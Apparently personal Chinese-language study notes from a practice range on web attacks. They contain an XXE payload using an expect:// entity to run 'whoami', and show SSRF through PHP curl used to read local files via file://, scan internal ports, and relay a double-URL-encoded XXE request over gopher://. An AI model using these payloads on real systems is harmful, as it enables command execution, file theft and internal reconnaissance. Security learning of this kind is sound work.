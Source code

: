 ```
<?xml version="1.0" ?>
<!DOCTYPE GVI [
<!ENTITY xxe SYSTEM "expect://whoami">]>
<user>
<username>&xxe;</username>
<password>b</password>
</user>

```

可以执行系统命令






# ssrf

新靶场ssrf

## curl()

用于获取对方服务器内容。

linux中用于获取文件——请求地址——不仅可以访问外地端口也可以访问本地端口。借助本地网站名义去访问别的网站，但只会把前端代码请求下来。

**curl系列函数，让php代码可以去访问其他人。**【中间商】



**但同时，能通过file伪协议`url=file:///c:/a.txt`反过来被访问本地文件等。**

`url=127.0.0.1:80`、`url=127.0.0.1:3306`可以扫描端口，因此也可以被反向利用这个网站，变成黑客的**端口扫描器**。







# ssrf+xxe：

1. 在xxe漏洞出现的地方，已经触发漏洞的整个request数据包，右键urlencode两次，复制。

xxe抓包后把数据包整个进行：

![image-20220120161745189](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/15%20xxe%2Bssrf.assets/image-20220120161745189.png)

两次编码。



2. 打开ssrf漏洞出现的地方，

`url=gopher://xxe.com:80/_[一堆刚刚复制的urlencode过的东西]`

利用gopher伪协议：

信息查找，tcp/ip，可以做tcp stream数据流的事情

可以利用来跳过http被屏蔽的情况。





